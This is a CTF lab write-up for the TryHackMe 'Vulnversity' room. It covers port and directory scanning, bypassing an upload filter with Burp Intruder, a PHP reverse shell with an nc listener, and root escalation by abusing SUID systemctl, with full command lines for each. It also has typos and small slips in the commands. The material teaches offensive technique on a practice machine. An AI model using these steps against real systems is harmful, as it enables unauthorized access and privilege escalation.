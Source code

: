 <img src="../images/THMlogo.png" alt="tryhackme" width="200"/>

# vulnversity

## nmap
```
Port 21 ftp
Port 22 ssh
Port 139 Samba
Port 445 Samba
Port 3128 Squid
Port 3333 http
```
If have a look at the website now remembering to view from port 3333 for http, we find what appears to be a scool.collage or university type web design. There doesn't appear to anything on the site with all links going back to home page.Viewing page source doesn't give any hints that I can see from the comments section.
Onto gobuster.

## gobuster
```
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
After an initial run using directory-list-2.3-medium,txt we find an /internal directory with a page that allows you to upload files. Running gobuster on this directory then provides us with the directory those files are stored in.

It would be rude not to try and see if it would upload specific files and or file types. I have been doing these rooms as part of my new CTF hobby for about 2 months now and had picked up some reverse scripts, which I keep stored in the in the Zim Desktop Wiki that has become my go to document storage for CTF in general.
I tried the file in the off chance it would work - php-reverse-shell.php (by pentestmonkey), but that came back as "Extension not allowed."
Having done some work on the Burp Suite room, I decided run that next.

## burp suite
If you have not completed the Burpe Suite room, it is recommented to do so. Based on the Community Edition and readily available, it can be a very useful tool. One of the pre-requisites is that your browser is set to use the local host proxy. This can be simplified by using a Firefox extension; Foxy Proxy. Ain set up details for this can be found on the internet.
I currently use Firefox as after some time doing these CTFs, the advice given pointed that way, though I am sure there are other browsers you may prefer. We have already tried a file, lets do it this time with Burpe Suite capturing the results.
Switch on Foxy Proxy and start BS. You may be prompted to update, your choice but the window can just be closed. You will then have the options to start a temporary project with default settings. These are fine, so select and go to the main window.
Now click on the Proxy tab, and verify that the "Intercept is On" is selected.
Next from the :3333/internal/ site, upload a file. BS will open and you will see that it has captured the infomation from the host to teh server.You should see your file name in the Content-Disposition: 
Right click anywhere in the Proxy > Raw tab, and "Send to Intruder."
We now see 4 new tabs. We will cover them individually.
1. Target. This is automatuically generated and should be the target computer.
2. Positions. This will have automatically checkedthecomplete filename we tried to enter on the website. We need to change this slightly as we just want to test the extensions. SO click the Clear button on the right side menu. Now highlight the file extension (missing out the decimal point). What this is doing is selecting the area that BS will change each time it tries to add a file. So the filename stays teh same only the extension changes.
3. Payloads. We keep the Payload Set as 1 and Type as a Simple List. We then load the options file, which could be the file recommended with teh five file types. In this case I use the extensions-common-list. What I do notice in this case is that once the file has loaded I see they have a decimal point before the extension. IN this case I need to go back and remove the decimal point from the Positions tab, it should look like this; filename="exploit§php§" Last one is that we untick Payload Encoding as it will change the decimal point to an encoded character.
4. Options. Finally I leave these to the default settings.

Now we are ready, we just need to take off the Proxy tab, Intercept is on button and change to Intercept is off. Go back to Intruder and use the Start Attack button, top right of the screen.
A demo warning pops up giving various restrictions in place. Just OK.



Intercept and attempt to upload a file.
2. Send the intercepted request to Intruder. The Intruder tab will now highlight. Select and we see thrwill now highlight
3. Clear payload positions and add by selecting the 'php' extension.
4. Select a payload set as a simple list (extensions_common.txt) and upload your payload list.
5. Start your attack.
6. Now filter your results to find the extension that the site accepted.
7. Now we know that .phtml is accepted amend the exploit.py to exploit.phtml.

## reverse shell
We will use the pentestmonkey reverse shell ensuring that as well as changing the extention to .phtml, that we update the IP address and Port of the attackers machine, in preperation for the netcat command.
```
nc -lnvp 9001
````
We now upload the file directly to the _/internal/upload_ folder and run it from the browser by clicking or by using a curl command.
```
curl ttp://10.10.74.180:3333/internal/uploads/php-reverse-shell.phtml
```
This now gives us access to a reverse shell. We can create a proper interactive shell by:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
We cannot access sudo permissions so let us look at SUID bit escalation:
```
find / -perm -4000 2>/dev/null
```
Using GTFObins we can see that there are two options for systemctl as SUID and sudo

```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
* TF=$(mktemp).service: we will create a new environment variable called “TF” (the name can be anything). Next, we will be using the mktemp command to create a new temporary file as a system service file.
* echo '[Service]: use the echo command to enter an input into the system. The single quote (‘) will allow us to enter into multi-line mode so we can enter the rest of the commands.
* Type=oneshot: declare the service as oneshot, which means that the service will execute the action and then immediately exit.
* ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output": when the service starts, use the sh command to execute (-c) everything inside the double quotes. This will send the results of the command “/root/root.txt” into a file named output in the tmp directory.
* [Install]: denotes the second part of our system services file.
* WantedBy=multi-user.target' > $TF: set the service to run once it reaches a certain runlevel. Multi-user.target is runlevel 3, while a functional Linux OS with GUI is runlevel 5. This dependency input and everything before is then redirected into the TF variable. The single quote after target is to denote the end of our echo entry.
* Systemctl link $TF: link the TF variable to systemctl so it can be executed by systemctl even though it’s in a different path from other service files.
* systemctl enable --now $TF: enable the service file stored in the TF variable immediately. It will reload the system manager to ensure the changes are in effect.

Then just read the root flag file:
```
cat /tmp/output
```

We can also escalate to a bash shell with a slighyt change of command.
```
eop=$(mktemp).service
echo '[Service]

ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $eop

/bin/systemctl link $eop

/bin/systemctl enable --now $eop
```
This changes the SUID of bash to allow us to use as root. We simply:
```bash -p
```
And now we have root permissions in the shell. Again use to read the flag file.

